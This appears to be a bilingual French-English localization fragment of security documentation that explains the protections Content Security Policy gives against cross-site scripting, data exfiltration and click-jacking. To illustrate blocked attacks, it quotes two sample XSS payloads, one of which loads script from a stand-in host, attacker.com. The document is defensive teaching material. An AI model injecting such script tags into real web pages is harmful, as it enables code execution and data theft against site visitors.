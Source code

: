 | <span data-ttu-id="fd56b-153">**Étapes**</span><span class="sxs-lookup"><span data-stu-id="fd56b-153">**Steps**</span></span> | <p><span data-ttu-id="fd56b-154">La stratégie de sécurité de contenu (CSP, Content Security Policy) est un mécanisme de protection fiable, correspondant à une norme W3C, qui permet aux propriétaires d’applications web de contrôler le contenu incorporé dans leur site.</span><span class="sxs-lookup"><span data-stu-id="fd56b-154">Content Security Policy (CSP) is a defense-in-depth security mechanism, a W3C standard, that enables web application owners to have control on the content embedded in their site.</span></span> <span data-ttu-id="fd56b-155">La stratégie CSP est ajoutée sous la forme d’un en-tête de réponse HTTP sur le serveur web et est appliquée côté client par les navigateurs.</span><span class="sxs-lookup"><span data-stu-id="fd56b-155">CSP is added as an HTTP response header on the web server and is enforced on the client side by browsers.</span></span> <span data-ttu-id="fd56b-156">Cette stratégie repose sur une liste blanche : un site web peut déclarer un ensemble de domaines approuvés à partir desquels un contenu actif tel qu’un script JavaScript peut être chargé.</span><span class="sxs-lookup"><span data-stu-id="fd56b-156">It is a whitelist-based policy - a website can declare a set of trusted domains from which active content such as JavaScript can be loaded.</span></span></p><p><span data-ttu-id="fd56b-157">La stratégie CSP procure les avantages de sécurité suivants :</span><span class="sxs-lookup"><span data-stu-id="fd56b-157">CSP provides the following security benefits:</span></span></p><ul><li><span data-ttu-id="fd56b-158">**Protection contre l’exécution de scripts intersites (XSS, Cross-Site Scripting) :** si une page est vulnérable aux attaques XSS, un attaquant peut exploiter cette faille de 2 manières :</span><span class="sxs-lookup"><span data-stu-id="fd56b-158">**Protection against XSS:** If a page is vulnerable to XSS, an attacker can exploit it in 2 ways:</span></span><ul><li><span data-ttu-id="fd56b-159">Injection du code `<script>malicious code</script>`.</span><span class="sxs-lookup"><span data-stu-id="fd56b-159">Inject `<script>malicious code</script>`.</span></span> <span data-ttu-id="fd56b-160">Ce type d’attaque ne fonctionnera pas en raison d’une restriction de base 1 de la stratégie CSP.</span><span class="sxs-lookup"><span data-stu-id="fd56b-160">This exploit will not work due to CSP’s Base Restriction-1</span></span></li><li><span data-ttu-id="fd56b-161">Injection du code `<script src=”http://attacker.com/maliciousCode.js”/>`.</span><span class="sxs-lookup"><span data-stu-id="fd56b-161">Inject `<script src=”http://attacker.com/maliciousCode.js”/>`.</span></span> <span data-ttu-id="fd56b-162">Ce type d’attaque échouera, car le domaine contrôlé par l’attaquant ne figurera pas dans la liste blanche de domaines de la stratégie CSP.</span><span class="sxs-lookup"><span data-stu-id="fd56b-162">This exploit will not work since the attacker controlled domain will not be in CSP’s whitelist of domains</span></span></li></ul></li><li><span data-ttu-id="fd56b-163">**Contrôle de l’exfiltration des données :** si un contenu malveillant présent sur une page web tente de se connecter à un site web externe et de voler des données, la stratégie CSP annule la connexion.</span><span class="sxs-lookup"><span data-stu-id="fd56b-163">**Control over data exfiltration:** If any malicious content on a webpage attempts to connect to an external website and steal data, the connection will be aborted by CSP.</span></span> <span data-ttu-id="fd56b-164">Ce comportement découle du fait que le domaine cible ne figure pas dans la liste blanche de la stratégie CSP.</span><span class="sxs-lookup"><span data-stu-id="fd56b-164">This is because the target domain will not be in CSP’s whitelist</span></span></li><li><span data-ttu-id="fd56b-165">**Protection contre le détournement de clics :** le détournement de clics est une technique d’attaque par laquelle un attaquant superpose un cadre caché à un site web authentique et incite les utilisateurs à cliquer sur des éléments de l’interface utilisateur.</span><span class="sxs-lookup"><span data-stu-id="fd56b-165">**Defense against click-jacking:** click-jacking is an attack technique using which an adversary can frame a genuine website and force users to click on UI elements.</span></span> <span data-ttu-id="fd56b-166">À l’heure actuelle, la technique de défense contre le détournement de clics consiste à configurer un en-tête de réponse X-Frame-Options.</span><span class="sxs-lookup"><span data-stu-id="fd56b-166">Currently defense against click-jacking is achieved by configuring a response header- X-Frame-Options.</span></span> <span data-ttu-id="fd56b-167">Toutefois, certains navigateurs ne respectent pas cet en-tête. L’application de la stratégie CSP constitue donc un moyen de protection standard contre le détournement de clics</span><span class="sxs-lookup"><span data-stu-id="fd56b-167">Not all browsers respect this header and going forward CSP will be a standard way to defend against click-jacking</span></span></li><li><span data-ttu-id="fd56b-168">**Signalement des attaques en temps réel:** en cas d’attaque par injection sur un site web protégé par la stratégie CSP, les navigateurs envoient automatiquement une notification à un point de terminaison configuré sur le serveur web.</span><span class="sxs-lookup"><span data-stu-id="fd56b-168">**Real-time attack reporting:** If there is an injection attack on a CSP-enabled website, browsers will automatically trigger a notification to an endpoint configured on the webserver.</span></span> <span data-ttu-id="fd56b-169">De cette façon, la stratégie CSP fait office de système d’avertissement en temps réel.</span><span class="sxs-lookup"><span data-stu-id="fd56b-169">This way, CSP serves as a real-time warning system.</span></span></li></ul> |
